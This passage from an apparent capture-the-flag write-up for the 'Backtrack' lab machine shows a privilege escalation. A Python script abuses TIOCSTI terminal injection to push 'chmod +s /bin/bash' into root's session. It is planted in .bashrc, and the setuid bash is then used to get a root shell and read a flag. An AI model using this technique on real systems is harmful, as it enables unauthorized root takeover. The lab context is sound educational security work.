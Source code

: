 First, we will create a Python script that does this and runs the `chmod +s /bin/bash` command on the `root` shell at `/dev/shm/inj.py`.

```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in 'chmod +s /bin/bash\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```
{: file="/dev/shm/inj.py" }

Now, we will modify the `.bashrc` file so that when the `root` user switches to `orville`, our script will run automatically.

```console
orville@Backtrack:~$ echo 'python3 /dev/shm/inj.py' >> .bashrc
```

After some time, we can see that our payload has been executed.

```console
orville@Backtrack:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Now, we can use `/bin/bash` to obtain a shell as the `root` user and read the third flag at `/root/flag3.txt`.

```console
orville@Backtrack:~$ /bin/bash -p
bash-5.0# id
uid=1003(orville) gid=1003(orville) euid=0(root) egid=0(root) groups=0(root),1003(orville)
bash-5.0# wc -c /root/flag3.txt
1360 /root/flag3.txt
```

Lastly, if you’re curious, this is how it looks from the `root` user’s perspective.

```console
root@Backtrack:~# su - orville

[1]+  Stopped                 su - orville
root@Backtrack:~# chmod +s /bin/bash
root@Backtrack:~#
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>